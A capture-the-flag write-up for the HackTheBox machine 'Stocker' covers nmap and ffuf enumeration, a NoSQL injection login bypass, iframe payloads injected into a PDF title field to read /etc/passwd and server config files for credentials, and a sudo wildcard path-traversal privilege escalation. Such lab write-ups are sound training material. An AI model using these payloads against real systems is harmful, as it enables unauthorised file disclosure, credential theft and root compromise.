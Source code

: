 ```yaml
---
title: "Stocker"
collection: publications
permalink: /publication/stocker
excerpt: 'This is a free machine from HackTheBox'
date: 2023-03-02
venue: '03-02'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/stocker.png)

**LINK:** [Stocker](https://app.hackthebox.com/machines/Stocker)

---

## Enumeration : 

Let's scan the target with nmap : 

```bash
# nmap -sC -sV -T4 10.10.11.196     
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-01 11:20 EST
Nmap scan report for 10.10.11.196
Host is up (0.61s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://stocker.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.99 seconds
```

* We got 2 open ports : 80 (nginx web server) and 22 (SSH)

**Subdomains :**

```bash
# ffuf -u http://stocker.htb/FUZZ -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt        

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://stocker.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

js                      [Status: 301, Size: 178, Words: 6, Lines: 8]
css                     [Status: 301, Size: 178, Words: 6, Lines: 8]
img                     [Status: 301, Size: 178, Words: 6, Lines: 8]
fonts                   [Status: 301, Size: 178, Words: 6, Lines: 8]
```

* nothing useful.

**Vhosts :**

```bash

ffuf -u http://stocker.htb -H "HOST: FUZZ.stocker.htb" -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt  -fc 301

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://stocker.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.stocker.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 301
________________________________________________

dev                     [Status: 302, Size: 28, Words: 4, Lines: 1]
```

## Foothold :

* let's add the dev.stocker.htb to /etc/hosts and start inspecting the page : 
![stocker1](/images/stocker1.png)

* the first thing came to my mind is SQLi, i tried with a wordlist contains payloads to bypass a login page, but nothing worked until i noticed this response header

![response](/images/header5.png)

* I did some reasearch and i found that using **Express** as a back-end framework is a popular MongoDB stack design, and i know that MongoDB is a NOSQL database.
[Read more](https://ruptura-infosec.com/blog/nosql-noproblem/)

* Thanks to [Hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass) i was able to bypass the login page and got redirected to /stock

![stock](/images/stocker3.png)

* I spent some time exploring the website, i noticed that when i add an item to the cart and the purchase is successful, the response contains an order_id 

![orderid](/images/stocker16.png)

* it renders out a PDF file in /api/po/order_id, when i saw that the title of the item is rendered to the pdf, i start manipulating with is until i was able to read a file that i wasn't supposed to.
![request](/images/stocker4.png)
![theresponse](/images/stocker5.png)

* Now it's time to read the /etc/passwd :

```bash
"title":"<iframe src=file:///etc/passwd height=1000px width=800px</iframe>
```


![etcpasswd](/images/stocker7.png)

* Now i got a username but i still need a password or a SSH key.
* Since it's a nginx web server, let's read the nginx.conf file 

```bash
"title":"<iframe src=file:///etc/nginx/nginx.conf height=1000px width=800px</iframe>
```

![nginx](/images/stocker8.png)

* Now i know where the dev.stocker.htb is located, i took a guess of the file name

```bash
"title":"<iframe src=file:///var/www/dev/index.js height=1000px width=800px</iframe>
```

![conffile](/images/stocker9.png)
![passwd](/images/stocker10.png)


* Now i have a username and a password, let's login using SSH

![ssh](/images/stocker11.png)

## Privilege Escalation: 

* First thing to do is to check sudo permissions

![sudo](/images/stocker12.png)

* we don't have permission to write or modify in /usr/local/scripts

![permission](/images/stocker13.png)

* But since we have a wildcard before __.js__ we can use a path traversal to execute a file we have directory write access to, and the best directory is __/tmp__

* I created a file called __exploit.js__ 
![exploit](/images/stocker14.png)

*Now it's time to execute it with sudo permission

![root](/images/stocker15.png)